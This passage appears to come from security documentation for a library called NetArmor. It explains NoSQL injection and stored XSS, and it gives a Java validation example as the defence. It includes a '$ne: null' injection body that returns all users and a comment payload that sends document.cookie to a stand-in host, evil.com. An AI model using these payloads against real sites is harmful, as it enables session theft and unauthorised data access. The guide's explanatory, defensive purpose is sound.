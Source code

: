 Now attacker tries to pass following body:

```json
{
  "username": {"$ne": null}
}
```

It will result with database searching with following filter:

```PSEUDOCODE
db.users.find(
  {
    username: {"$ne": null}
  }
)
```

It directly means "give me all users, whose username is not null". In most cases it will return you all users, what means that you have just performed NoSQL Injection.

### How to protect yourself from NoSQL Injection?

Strong typification and input validation are your best friends in this situation. For instance you can validate your input with [NetArmor](../armor)'s validator and use MongoDB driver in Java:

```java
var collection = database.getCollection("users");

var validatedUsername = netArmor.validator().input().validate("username", input);

var filter = Filters.eq("username", validatedUsername);
var result = collection.find(filter);
```

XSS Attacks
-----------

XSS Attack is yet another popular attack that targets not servers but users. The main goal of this method is to execute JS code in a user's browser.  
For instance, `Stored XSS` is a type of XSS attack when vulnerable code is stored on the legitimate server to be loaded by other users.

To understand it better, let's imagine we have a cinema website where users are allowed to post comments to films.  
Our evil man posts following content:

```
Very interesting film about extremely sad fairytale. var img=new Image();img.src='http://evil.com/steal-cookie.php?cookie='+document.cookie;
```

It will be stored in database with other comments.

When a random user will try to load comments, the DOM will look something like that:

```html

  
  
    
      Very interesting film about extremely sad fairytale. 
      var img = new Image(); img.src = 'http://evil.com/steal-cookie.php?cookie=' + document.cookie;
    
    ...
  
  

```
